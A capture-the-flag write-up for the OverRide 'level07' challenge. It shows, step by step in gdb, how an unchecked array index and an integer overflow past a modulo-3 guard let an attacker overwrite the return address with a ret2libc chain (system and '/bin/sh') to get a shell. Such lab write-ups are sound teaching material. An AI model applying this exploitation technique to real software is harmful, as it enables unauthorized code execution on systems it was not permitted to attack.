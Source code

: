 After analyzing the program we see that we can use the `store_number` function to store a number in a array,
but the function does not check that the index given to store the number is in the array

Let's find the address of the buffer:

```
(gdb) b *0x080489a1       <====================== Breakpoint at the end of main
Breakpoint 4 at 0x80489a1
(gdb) r
Starting program: /home/users/level07/level07
...
Input command: store
 Number: 1234
 Index: 1
 Completed store command successfully

Breakpoint 4, 0x080489a1 in main ()
(gdb) i proc map
process 1688
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
         0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
         0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fd8000 0xf7fdb000     0x3000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xfffdd000,0xffffdfff, 1234
0xffffd548
1 pattern found.
```

Here we have the pattern at `0xffffd548` which is at the index 1 (\* 4) of the buffer.
So the start of the buffer is at `0xffffd548` - 4 : `0xffffd544`

We convert the address in decimal :
`0xffffd544` ===> `4294956356`

So we will use the fact that we can write after the buffer to overwrite an address
We start to print addresses after our buffer:

Our buffer address + 400 to get the end of our buffer `4294956356 + 400 = 0xFFFFD6D4` in hex

```
(gdb) x/20x 0xffffd6d4
0xffffd6d4: 0x00000000 0x64616572 0x00000000 0x00000000
0xffffd6e4: 0x00000000 0x00000000 0x599ca500 0xf7feb620
0xffffd6f4: 0x00000000 0x08048a09 0xf7fceff4 0x00000000
0xffffd704: 0x00000000 0x00000000 0xf7e45513 0x00000001
0xffffd714: 0xffffd7a4 0xffffd7ac 0xf7fd3000 0x00000000
```

When we put a breakpoint at the end of the program, we see that the program go in a function called `__libc_start_main` before exiting.

```
(gdb) disas main
Dump of assembler code for function main:
 0x08048723 <+0>: push %ebp
...
   0x080489ee <+715>:   pop    %esi
   0x080489ef <+716>:   pop    %edi
   0x080489f0 <+717>:   pop    %ebp
   0x080489f1 <+718>:   ret
End of assembler dump.
(gdb) b *0x080489f1
Breakpoint 1 at 0x80489f1
(gdb) r
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: quit

Breakpoint 1, 0x080489f1 in main ()
(gdb) ni
0xf7e45513 in __libc_start_main () from /lib32/libc.so.6
(gdb) ni
0xf7e45516 in __libc_start_main () from /lib32/libc.so.6
(gdb) ni
[Inferior 1 (process 1707) exited normally]
```

We can see that we already have seen the address `0xf7e45513`. When we have printed the stack that came after the buffer

```
0xffffd704: 0x00000000 0x00000000 0xf7e45513 0x00000001
```

Let's try to overwrite `0xf7e4551` first we get the address of the value: `0xffffd704 + 8` ==> `4294956804 + 8 = 4294956812`

We want to get the difference between [address where to write] and [address of the buffer]
`4294956356 - 4294956812 = -456`

We divide 456 by 4 to counter the \* 4
`456 / 4 = 114`

Since there is protection that prevents us from storing at an index where the modulo 3 is equal to 0,
we can't overwrite the address by using the index 114, because `114 % 3 == 0`

So we will do an overflow:
To counter the \* 4 we divide UINT_MAX / 4
UINT_MAX / 4 : `4294967295 /4 = 1073741823.75`
Since it is a decimal number we round it up to the next whole number : `1073741824`

`1073741824 * 4` after overflow is equal to 0

Now we add 114 to our number `1073741824 + 114 = 1073741938`,
we check that it's modulo 3 is not equal to 0 : `1073741938 % 3 = 1`

Since the program `memset` the environment at the start of the program,
we can not put a shellcode in the environment

So we have to use a Ret2libc

Address of `system`

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

Converted in decimal : `4159090384`

Address of `"/bin/sh"`

```
(gdb) find 0xf7e2c000,0xf7fcbfff, "/bin/sh"
0xf7f897ec
1 pattern found.
```

Converted in decimal : `4160264172`

Now we have just have to put the number `4159090384` at the index `1073741938`,
and the number `4160264172` at the index `114 + 2` because a ret2libc attack consists of 3 addresses
and we want to write the third addresses. Since the modulo 3 of 116 is not equal to 0 we can just use 116

```Shell
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$
```
